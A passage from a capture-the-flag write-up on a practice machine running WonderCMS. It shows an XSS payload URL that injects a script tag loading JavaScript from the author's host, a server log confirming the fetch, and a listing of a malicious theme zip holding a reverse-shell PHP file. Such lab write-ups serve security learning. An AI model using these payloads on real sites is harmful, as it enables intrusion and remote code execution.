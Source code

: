 ![image-20240811125253481](/img/image-20240811125253481.png)

It’s in a different format (`/loginURL` vs `/index.php?page=loginURL`), but that’s a common PHP page structure.

If I download the WonderCMS source there’s only a simple `index.php` file. In it, there’s a `createDb` function that defines the `login` page:

![image-20240811125542073](/img/image-20240811125542073.png)

Other places, it seems hard coded into the PHP:

![image-20240811125624638](/img/image-20240811125624638.png)

When I visit `/loginURL` (or `/index.php?page=loginURL`), it loads the template with the login form in the content page:

![image-20240811125708006](/img/image-20240811125708006.png)

#### XSS POC

To show this works, I’m going to send a URL that looks like this:

```

http://sea.htb/index.php?page=loginURL"></form><script src="http://10.10.14.6/0xdf.js"></script><form action="

```

The idea is that it gets put into a `form`, which the payload then closes, creates a `script` tag loading JavaScript from my host, and then starts a new form so that all the HTML is valid.

I’ll submit this in the contact form:

![image-20240811133859527](/img/image-20240811133859527.png)

In about a minute, there’s a connection at my Python webserver:

```

oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.28 - - [11/Aug/2024 13:40:49] code 404, message File not found
10.10.11.28 - - [11/Aug/2024 13:40:49] "GET /0xdf.js HTTP/1.1" 404 -

```

That’s successful XSS.

#### Malicious Theme

The [theme file from the POC](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip) is very simple:

```

oxdf@hacky$ unzip -l main.zip 
Archive:  main.zip
1f1a52393d8a6ff6c27e56d958c6d0ee45e7a37f
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2023-08-02 12:44   revshell-main/
     5736  2023-08-02 12:44   revshell-main/rev.php
---------                     -------
     5736                     2 files

```
